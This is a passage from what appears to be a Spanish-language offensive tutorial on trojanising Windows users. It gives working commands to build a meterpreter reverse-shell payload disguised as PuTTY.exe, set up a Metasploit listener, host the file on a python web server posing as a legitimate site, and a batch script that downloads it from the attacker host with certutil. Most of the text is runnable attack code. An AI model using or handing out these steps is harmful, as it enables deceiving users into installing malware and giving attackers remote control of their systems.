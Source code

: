 Por lo que ya tendriamos acceso al sistema de windows mediante una terminal ocultandolo en una aplicacion legitima.

## 2ª Forma mas profesional de hacer lo anterior

Vamos a crear el archivo malicioso oculto dentro de uno legitimo, escogeremos cualquier aplicacion que queramos ocultar el codigo malicioso, una vez teniendo la aplicacion haremos lo siguiente.

Antes de crearlo en nuestra maquina atacante creamos el archivo con `msfvenom`.

```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > PuTTY.exe
```

Configuramos la escucha de metasploit.

```shell
msfconsole -q
```

```shell
use multi/handler
```

Configuramos la escucha.

```shell
set payload windows/x64/meterpreter/reverse_tcp
set LHOST <IP>
set LPORT <PORT>
```

Y ejecutamos la escucha, ahora esto lo dejaremos en segundo plano.

```shell
run
```

Ahora vamos abrir un servidor de `python3` simulando que es una pagina web o lo que querais suplantar por algo legitimo para que el usuario pique y se descargue nuestro archivo malicioso.

```shell
python3 -m http.server 80
```

Donde tengamos el servidor abierto plantamos el archivo que el usuario se va a descragar, en mi caso cree un script en `.bat` que te automatiza todo lo anetrior.

> script.bat

```shell
@echo off

:: Descargar el archivo
certutil -urlcache -f http://<IP>/PuTTY.exe payload.exe
if %ERRORLEVEL% NEQ 0 (
    exit /b %ERRORLEVEL%
)

:: Crear directorio Temp si no existe
if not exist C:\Temp\ (
    mkdir C:\Temp\
    if %ERRORLEVEL% NEQ 0 (
        exit /b %ERRORLEVEL%
    )
)

:: Mover el archivo descargado
move payload.exe C:\Temp\
if %ERRORLEVEL% NEQ 0 (
    exit /b %ERRORLEVEL%
)
```